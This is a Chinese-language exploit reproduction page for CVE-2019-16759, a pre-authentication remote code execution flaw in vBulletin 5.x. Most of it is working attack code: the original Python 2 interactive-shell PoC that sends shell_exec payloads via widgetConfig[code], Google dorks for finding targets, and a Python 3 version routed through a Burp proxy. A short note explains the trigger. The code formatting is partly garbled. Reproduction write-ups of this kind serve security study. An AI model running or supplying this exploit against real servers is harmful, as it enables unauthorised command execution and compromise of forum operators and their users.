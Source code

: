 ```yaml
---
title: （CVE-2019-16759）vBulletin 5.x 0day pre-auth RCE exploit
id: zhfly3218
---
```


# （CVE-2019-16759）vBulletin 5.x 0day pre-auth RCE exploit

## 一、漏洞简介

## 二、漏洞影响

影响版本：vBulletin 5.0.0~5.5.4

## 三、复现过程

```
poc如下:

#!/usr/bin/python

# vBulletin 5.x 0day pre-auth RCE exploit

# This should work on all versions from 5.0.0 till 5.5.4

# Google Dorks:

# - site:*.vbulletin.net

# - “Powered by vBulletin Version 5.5.4”

import requests

import sys

if len(sys.argv) != 2:

sys.exit(“Usage: %s <URL to vBulletin>” % sys.argv[0])

params = {“routestring”:“ajax/render/widget_php”}

while True:

```
try:

     cmd = raw_input("vBulletin$ ")

     params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"

     r = requests.post(url = sys.argv[1], data = params)

     if r.status_code == 200:

          print r.text

     else:

          sys.exit("Exploit failed! :(")

except KeyboardInterrupt:

     sys.exit(" Closing shell...")

except Exception, e:

     sys.exit(str(e)) 
``` 
```

将poc代码修改为python3使用的代码，并添加代理使用burpsuite抓包。修改的poc代码如下：

```
# -*-coding:utf-8 -*-

import requests

import sys

if len(sys.argv) != 2:

sys.exit(“Usage: %s <URL to vBulletin>” % sys.argv[0])

proxies ={

“http”:“[http://127.0.0.1:8080/](http://127.0.0.1:8080/)”

}

params = {“routestring”:“ajax/render/widget_php”}

while True:

try:

cmd = input(">>>Shell= “)

params[“widgetConfig[code]”] = “echo shell_exec(’”+cmd+”’); exit;"

r = requests.post(url = sys.argv[1], data = params, proxies=proxies)

if r.status_code == 200:

print(r.text)

```
 else:
           sys.exit("Exploit failed! :(")
 except KeyboardInterrupt:
      sys.exit("\nClosing shell...")
 except Exception as e:
      sys.exit(str(e)) 
``` 
```

远程代码执行漏洞的触发点是未经过验证的用户通过向index.php发送routestring参数，当routesting参数是ajax/render/widget_php，通过widgetConfig[code]执行远程代码，格式为echo shell_exec('"+cmd+"'); exit;

![image](../img/63bdb93855d69e47a2b7d6b355405e43.png)